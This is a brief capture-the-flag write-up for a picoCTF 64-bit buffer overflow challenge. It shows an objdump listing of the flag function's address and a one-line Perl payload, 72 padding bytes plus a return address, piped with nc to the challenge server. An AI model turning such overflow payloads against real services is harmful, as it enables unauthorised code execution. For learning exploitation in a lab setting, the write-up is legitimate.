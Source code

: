# Notes
- Just need to overflow 64-bit to get the flag. No PIE
```
x-sixty-what[master*] $ objdump -D vuln | grep flag
0000000000401236 <flag>:
  40125e:       75 29                   jne    401289 <flag+0x53>
```
- Buffer to overflow is 64 bytes

# Writeup

perl -e 'print "A"x72 . "\x3b\x12\x40\n"' | nc saturn.picoctf.net 50096
